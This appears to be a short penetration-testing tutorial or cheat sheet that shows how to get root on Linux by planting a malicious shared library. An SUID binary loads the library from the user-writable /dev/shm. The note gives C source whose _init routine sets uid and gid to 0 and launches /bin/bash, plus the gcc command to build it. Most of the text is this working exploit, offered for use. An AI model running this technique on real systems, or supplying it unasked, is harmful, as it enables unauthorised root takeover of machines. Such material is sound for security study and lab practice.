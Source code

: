 # Exploitation

We are going to assume that there's an **SUID binary** called **/usr/bin/welcome**.

However, the user is unable to run it as the binary cannot find a library file *(let's call it **libhello.so**)* which should be in `/dev/shm`.

Since, this directory is in control of the current user, we'll move there and create a **C** file.
1. 
```c
// /dev/shm/libhello.c

#include <stdlib.h>
#include <unistd.h>

void _init() {
	setuid(0);
	setgid(0);
	system("/bin/bash");
}
```

Since we set the *uid* and  *gid* to **0**, our shell will be owned by root.

2. 
Now we need to compile it as a library file and save it to `/dev/shm`
```bash

gcc -shared libhello.c -o libhello.so -fPIC -nostartfiles

```

3. Run `/usr/bin/welcome` and enjoy the elevated shell
  

# References
- [https://tbhaxor.com/exploiting-shared-library-misconfigurations/](https://tbhaxor.com/exploiting-shared-library-misconfigurations/)